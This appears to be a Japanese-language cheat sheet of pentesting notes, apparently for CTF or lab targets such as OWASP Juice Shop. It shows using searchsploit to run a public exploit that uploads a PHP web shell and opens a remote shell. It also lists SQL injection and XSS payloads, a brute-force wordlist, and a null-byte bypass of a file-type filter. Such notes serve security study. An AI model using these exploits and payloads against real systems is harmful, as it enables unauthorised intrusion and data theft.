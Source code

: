 ## 既知の脆弱性

```bash
searchsploit "online book store"

# 検索結果に[Unauthenticated Remote Code Execution（RCE）]がある。コピーして使用する。
cp /usr/share/exploitdb/exploits/php/webapps/47887.py .

# ヘルプで使い方を確認する
python 47887.py -h
# usage: 47887.py [-h] url
# positional arguments:
#   url         The URL of the target.
# options:
#   -h, --help  show this help message and exit

# URLを引数に指定するとリモートログインできる
python 47887.py <url>
# > Attempting to upload PHP web shell...
# > Verifying shell upload...
# > Web shell uploaded to http://<url>/bootstrap/img/UIX0yX0eck.php
# > Example command usage: http://<url>/bootstrap/img/UIX0yX0eck.php?cmd=whoami
# > Do you wish to launch a shell here? (y/n): y
# RCE $
```

### SQLインジェクション

```bash
' or 1=1--

bender@juice-sh.op'--
```

### ブルートフォース

```bash
sudo apt install seclists
# 以下の辞書をペイロードに指定する
/usr/share/seclists/Passwords/Common-Credentials/best1050.txt
```

- [403 Error: Only .md and .pdf files are allowed!]エラー対策
  - <http://hostname/ftp/package.json.bak%2500.md>のように[%2500.md]でバイパスする
    - Poison Null Byte: %2500

### XSS例

```bash
<iframe src="javascript:alert(`xss`)">

<script>alert(`xss`)</script>
```

